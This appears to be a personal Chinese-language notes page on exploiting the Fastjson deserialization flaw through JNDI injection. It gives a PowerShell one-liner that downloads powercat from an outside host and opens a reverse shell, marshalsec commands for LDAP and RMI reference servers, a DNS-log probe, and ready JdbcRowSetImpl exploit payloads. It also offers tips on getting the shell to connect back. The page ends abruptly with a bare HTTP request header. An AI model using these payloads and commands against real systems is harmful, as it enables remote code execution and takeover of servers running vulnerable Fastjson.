 
好文章<br />[https://www.freebuf.com/vuls/276812.html](https://www.freebuf.com/vuls/276812.html)
```
https://blog.csdn.net/weixin_41598660/article/details/107477649?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161513136316780266298844%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=161513136316780266298844&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v1~rank_blog_v1-1-107477649.pc_v1_rank_blog_v1&utm_term=fastjson
```

先编译好java代码，把java编译成.class文件

如果是windows，可以直接powercat反弹shell<br />{"cmd.exe","/c", "powershell \"IEX (New-Object System.Net.Webclient).DownloadString('http://11.11.11.11/powercat.ps1'); powercat -c 11.11.11.11 -p 9999 -e powershell\""}

同一目录下:<br />python -m SimpleHTTPServer 8081

打的时候要对应好LADP和RMI，不然就打不成功。<br />**LDAP**<br />java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ip:8081/#Exploit" 8888

**RMI**<br /> java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.10.144:8081/#Exploit" 9999

**POC:**<br />{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog的位置"}}<br />{"@type":"java.net.Inet4Address","val":"dnslog的位置"}

**exp:**<br />ldap
```
{
  "name": {
    "@type": "java.lang.Class",
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "x": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://192.168.10.144:9999/Exploit",
    "autoCommit": true
  }
}
```
rmi
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.10.144:9999/Exploit",
        "autoCommit":true
    }
}
```
<a name="N60G9"></a>
### 坑点
关于编译的.class文件，RMIRefServer和http服务都有收到请求，但是就是反弹不了shell，很有可能是本地编译.class的java版本问题，最好用jdk1.7的，主要是java编译成class文件。<br />**成功**<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615134412665-29920f02-aca8-459e-9035-a928085e391b.png#height=106&id=OzOQX&originHeight=141&originWidth=662&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9498&status=done&style=none&title=&width=497)<br />**失败**<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615134430117-8b5bedbf-67fa-4cef-8a88-fadae08c77d2.png#height=90&id=e3UP0&originHeight=90&originWidth=625&originalType=binary&ratio=1&rotation=0&showTitle=false&size=7113&status=done&style=none&title=&width=625)<br />**bcel 要版本很低，<=fastjson 1.2.24**
```
POST / HTTP/1.1
Host: 192.168.201.129:8090
```